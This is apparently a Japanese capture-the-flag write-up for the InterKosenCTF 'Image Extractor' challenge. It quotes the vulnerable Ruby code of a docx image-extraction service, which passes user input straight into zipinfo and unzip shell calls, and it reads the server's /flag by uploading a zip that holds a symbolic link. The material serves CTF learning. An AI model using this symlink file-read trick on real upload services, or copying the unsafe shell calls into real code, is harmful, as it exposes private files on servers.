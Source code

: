 # InterKosenCTF "Image Extractor" writeup

## Challenge

```
My hated friend releases a service which extracts images from a document. I want to break it to read /flag.
```

## Solution

docx ファイルをアップロードすると内部の画像ファイルを取り出してくれるサービス

そしてサーバー内の /flag を読み出すとフラグを得られる

> docx ファイルは zip ファイルでそのまま解凍すると word/media ディレクトリ内にドキュメント内の画像が保存されている

ソースコードが与えられるので main.rb を読んでいく

- アップロード部分

```ruby
files = `zipinfo -1 #{filename}`
raise "ERROR" if files.lines.grep(/^word\/media\//).empty?
```

アップロードしたファイルの中に word/media ディレクトリがあることをチェックし、zip ファイルのまま workdir / (hash).zip に保存

- 表示部分

```ruby
@images = `zipinfo -1 #{zipfile}`.lines.grep(/^word\/media\/[A-Za-z0-9_]+\.[A-Za-z0-9_]+/).map do |path|
  path.delete_prefix("word/media/")
```

zip の word/media ディレクトリ内のファイルを表示

- ダウンロード部分

```ruby
zipfile = File.join("workdir", params[:name] + ".zip")
filedir = File.join("workdir", SecureRandom.hex(16))
file = File.join(filedir, params[:image])
system("unzip -j #{zipfile} word/media/#{params[:image]} -d #{filedir}")
if File.exists?(file)
  send_file(file)
```

word/media の中から指定されたファイル名を探し、解凍してダウンロードする

実装的にディレクトリトラバーサルは難しそうなのでシンボリックリンクで /flag を読み出す

```
ln -s /flag test.b
```

上記コマンドで作成した test.b を word/media ディレクトリに入れ zip 化し、docx ファイルにしてアップロードする。そしてサービスから test.b をダウンロードするとフラグが含まれている
